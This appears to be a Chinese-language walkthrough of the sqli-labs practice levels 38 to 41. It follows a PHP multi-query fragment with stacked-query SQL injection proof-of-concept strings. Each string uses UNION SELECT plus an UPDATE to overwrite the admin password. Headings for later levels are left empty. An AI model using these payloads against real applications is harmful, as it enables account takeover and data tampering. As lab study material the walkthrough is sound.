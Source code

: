 ```php
        }
        //while (mysqli_next_result($con1));
    }
    else
    {
        print_r(mysqli_error($con1));
    }
    /* close connection */
    mysqli_close($con1);
```

poc(更改admin的密码)
```
id=1' union select 1,2,3; update users set password='test' where username='admin' --+
```
之后用admin账户与密码登录尝试！登录成功，则说明注入成功


## Less-39
id换成整数
```
id=1 union select 1,2,3; update users set password='testt' where username='admin' --+
```


## Less-40


多了一个括号
poc
```
id=100') union select 1,2,3;update users set password='daitao' where username='admin' --+
```

## Less-41
id换成整数

poc
```
id=100 union select 1,2,3; update users set password='testtu' where username='admin' --+
```


## Less-42



## Less-43
## Less-44
## Less-45
## Less-46
## Less-47
## Less-48
## Less-49
## Less-50
